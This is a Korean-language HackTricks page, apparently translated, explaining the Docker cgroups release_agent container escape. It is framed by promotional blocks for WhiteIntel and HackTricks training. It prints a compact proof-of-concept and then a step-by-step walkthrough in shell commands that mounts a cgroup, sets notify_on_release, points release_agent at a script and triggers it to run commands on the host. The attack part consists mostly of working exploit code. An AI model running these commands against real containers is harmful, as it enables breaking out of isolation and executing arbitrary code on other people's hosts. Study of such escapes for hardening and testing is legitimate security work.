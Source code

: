 # Docker release_agent cgroups escape

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 요령을 공유하려면 PR을 **HackTricks** 및 **HackTricks Cloud** github 저장소에 제출하세요.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)은 **다크 웹**을 활용한 검색 엔진으로, 회사나 고객이 **스틸러 악성 코드**에 의해 **침해**당했는지 무료로 확인할 수 있는 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보 도난 악성 코드로 인한 계정 탈취 및 랜섬웨어 공격을 막는 것입니다.

그들의 웹사이트를 방문하여 엔진을 **무료**로 시험해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

***

**자세한 내용은** [**원본 블로그 게시물**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**를 참조하세요.** 이것은 요약입니다:

원본 PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
다음은 cgroups를 악용하는 방법을 시연하는 증명-of-concept (PoC)입니다. `release_agent` 파일을 생성하고 해당 파일을 트리거하여 컨테이너 호스트에서 임의의 명령을 실행하는 방법을 보여줍니다. 다음은 수행되는 단계를 설명합니다:

1. **환경 설정:**
* `/tmp/cgrp` 디렉토리를 생성하여 cgroup의 마운트 지점으로 사용합니다.
* RDMA cgroup 컨트롤러를 이 디렉토리에 마운트합니다. RDMA 컨트롤러가 없는 경우 `memory` cgroup 컨트롤러를 대안으로 사용하는 것이 제안됩니다.
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **자식 Cgroup 설정:**
* 마운트된 cgroup 디렉토리 내에 "x"라는 이름의 자식 cgroup이 생성됩니다.
* "x" cgroup에 대한 알림은 notify\_on\_release 파일에 1을 쓰는 것으로 활성화됩니다.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **릴리스 에이전트 구성:**
* 호스트에서 컨테이너의 경로는 /etc/mtab 파일에서 얻습니다.
* 그런 다음 cgroup의 release\_agent 파일을 구성하여 획득한 호스트 경로에 위치한 /cmd 스크립트를 실행합니다.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **/cmd 스크립트 생성 및 구성:**
* /cmd 스크립트는 컨테이너 내부에 생성되고 ps aux를 실행하도록 구성되며, 출력을 컨테이너 내의 /output이라는 파일로 리다이렉트합니다. 호스트에서 /output의 전체 경로가 지정됩니다.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **공격 트리거:**
* "x" 자식 cgroup 내에서 프로세스가 시작되고 즉시 종료됩니다.
* 이로 인해 `release_agent` (/cmd 스크립트)가 트리거되어 호스트에서 ps aux를 실행하고 결과를 컨테이너 내의 /output에 작성합니다.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)은 **다크 웹**을 기반으로 한 검색 엔진으로, 회사나 그 고객이 **스틸러 악성 소프트웨어**에 의해 **침해**당했는지 확인하는 **무료** 기능을 제공합니다.

WhiteIntel의 주요 목표는 정보를 도난하는 악성 소프트웨어로 인한 계정 탈취 및 랜섬웨어 공격을 막는 것입니다.

그들의 웹사이트를 방문하여 엔진을 **무료**로 사용해 볼 수 있습니다:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
